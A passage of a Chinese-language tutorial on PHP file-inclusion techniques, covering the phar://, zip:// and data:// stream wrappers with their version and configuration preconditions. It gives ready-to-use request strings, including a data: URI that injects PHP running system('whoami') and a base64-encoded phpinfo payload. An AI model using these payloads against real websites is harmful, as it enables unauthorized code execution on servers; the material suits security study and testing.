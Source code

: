 > 可以直接读取经过base64加密后的文件源码。

### phar://

利用条件：

php版本大于等于5.3.0

利用方法：

将php文件打包成zip压缩包，然后

指定绝对路径：

~~~
index.php?file+phar://D:/phpStudy/WWW/test.zip/test.php
~~~

或者相对路径：

~~~
index.php?file=phar://test.zip/test.php
~~~

### zip://

利用条件：

php版本大于等于5.3.0

利用方法：

构造zip包

然后指定绝对路径，同时将`#`编码为`%23`，之后填上压缩包内的文件。

~~~
index.php?file=zip://D:\phpStudy\WWW\test.zip%23test.php
~~~

> 使用相对路径会包含失败。

### data:URI schema

利用条件：

1. php版本大于等于php5.2.0
2. allow_url_fopen = On
3. allow_url_include = On

利用方法：

~~~
index.php?file=data:text/plain,<?php system('whoami');?>
~~~
^
~~~
index.php?file=data:text;base64,PD9waHAgcGhwaW5mbygpOz8%2b
~~~


